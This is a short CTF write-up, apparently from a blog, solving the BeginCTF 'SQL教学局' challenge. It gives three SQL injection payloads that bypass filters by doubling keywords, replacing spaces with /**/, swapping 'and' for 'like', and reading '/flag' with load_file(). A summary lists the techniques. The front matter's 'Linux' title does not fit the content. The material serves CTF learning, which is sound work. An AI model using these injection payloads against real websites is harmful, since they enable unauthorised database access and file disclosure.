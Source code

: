 ```yaml
---
title: Linux
category: Fundamentals of operating systems
date: 2024-2-1
---
```


source:[BeginCTF]SQL教学局

## info

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-1.png)

## EXP

```cpp
?user=1'/**/union/**/seselectlect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-2.png)

```cpp
?user=1'/**/union/**/seselectlect/**/grade/**/frofromm/**/scoorre/**/where/**/student/**/like/**/'begin'%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-3.png)

```cpp
?user=1'/**/union/**/seleselectct/**/loaloadd_file('/flag')%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-4.png)

## Summary

```cpp
类型：
联合查询注入

注释：
%23

空格过滤绕过：
/**/

关键字'or','from','select','load'过滤绕过：
双写关键字

and过滤绕过：
like

文件读取函数：
load_file('/path')
```

